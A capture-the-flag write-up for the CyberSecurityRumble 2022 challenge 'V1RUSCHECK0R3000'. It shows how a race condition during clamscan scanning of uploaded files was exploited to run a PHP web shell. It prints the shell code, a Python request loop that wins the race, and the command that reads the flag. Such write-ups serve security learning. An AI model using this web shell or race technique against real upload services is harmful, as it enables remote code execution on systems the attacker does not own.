 ```yaml
---
permalink: /CyberSecurityRumble%202022/V1RUSCHECK0R3000/
---
```


# V1RUSCHECK0R3000

We are given a website where we are able to look into the source code. After some investigation, I found out that the site lets you upload a file not bigger than 100 bytes, scan it using clamscan and then tell you if the file is a virus or not. 

After taking a closer look at the code, I saw this function:

```php
function hasVirus($file_path) {
    # Check for Virus
    $argument = escapeshellarg($file_path);
    exec("clamscan $argument", $output, $retval);
    
    if ($retval != 0) {
        return true;
    } 
    return false;
}
```

I thought that maybe escapeshellarg is the exploitable part but after quite some time researching I discarded this approach. After that, I tried running clamscan myself to see if there are any possible arguments, that would give me something useful but also no luck there.

While looking at the manual though, I got the idea to upload a shell and then copy it into a directory in which it won't get deleted but that will obviously not work as there is no bypass for escapeshellarg. While trying clamscan I noticed that it doesn't work instantly...

Then I remembered a challenge from another CTF in which I had a small timeframe to upload a shell before it gets deleted... and after some trying around I got RCE!!

To make fast enough requests, I used this python code:

```py
import requests

while True:
    r = requests.get("http://viruscheckor.rumble.host/uploads/shell.php?cmd=whoami")
    if not "The requested URL /uploads/shell.php was not found on this server." in r.text:
        print(r.text)
```

With the basic php shell: 

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

And after searching for a bit I finally found the flag: `cat ../flag.php`
